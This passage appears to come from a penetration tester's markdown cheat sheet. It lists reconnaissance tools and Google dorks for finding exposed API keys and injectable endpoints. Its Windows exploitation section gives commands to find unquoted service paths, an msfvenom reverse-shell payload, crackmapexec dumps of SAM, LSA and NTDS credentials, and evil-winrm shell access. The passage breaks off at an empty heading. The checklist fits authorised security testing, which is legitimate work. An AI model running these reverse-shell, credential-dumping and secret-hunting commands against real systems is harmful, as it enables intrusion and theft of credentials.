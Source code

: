 - `gobuster dir -u https://example.com -w /wordlists/test.txt -lk -o gobuster.txt` 
- `nikto -h https://example.com`
- `wpscan --url https://example.com -e -o wpscan.txt`
#### API
Find WordPress users API
- `inurl:"/wp-json/wp/v2/users"`
Find exposed API keys
- `intitle:"index.of" intext:"api.txt"`
Find interesting API directories
- `inurl:"/api/v1" intext:"index of /"`
Sites with XenAPI SQLi vulnerabilities
- `ext:php inurl:"api.php?action="`
Finds potentially exposed API keys
- `intitle:"index of" api_key OR "api key" OR apiKey -pool`
Search GitHub issues and previous versions
- `site:github.com inurl:api`
Use Amass for api enumeration
- `amass enum -active -d target-name.com | grep api`
- `amass enum -active -brute -w /usr/share/wordlists/API_superlist -d [target domain] -dir [directory name]`
Use Kiterunner to enumerate API endpoints
- `kr scan HTTP://127.0.0.1 -w ~/api/wordlists/data/kiterunner/routes-large.kite`
#### Web-App Analysis 
- Wappalyzer - Identify technologies used. 
- Entry Points - Input, uploads, buttons, URL parameters, etc.  
- Guest Accounts - Authenticated session without credentials?
- User Enumeration - Login errors, IDOR, etc.
- `sslyze https://example.com` - Checks for SSL/TLS issues. 
## Exploitation
### Windows
- [ ] App Domain
#### Unquoted Service Path
Find vulnerable services using PowerShell:
`Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`
- [ ] .lnk files
- [ ] WTFBins
- [ ] BloodHound/SharpHound
- [ ] WinPEAS
Check write permissions in directory before the space: 
`Get-Acl C:\DirectoryName\`
Generate payload:
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f exe-service -o mal.exe`
- [ ] Petit Pottam
#### Credential Caches
Dump credential caches
- `crackmapexec smb 127.0.0.1 -u $username -p $password --lsa`
- `crackmapexec smb 127.0.0.1 -u $username -p $password --sam`
Clone domain controller
- `crackmapexec smb 127.0.0.1 -u $username -p $password --ntds --users --enabled` (Requires DA, don't use this without permission from the client)
#### Shell Access
Port 5985 open, with credentials
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD>`
#### Named Pipe Exploitation

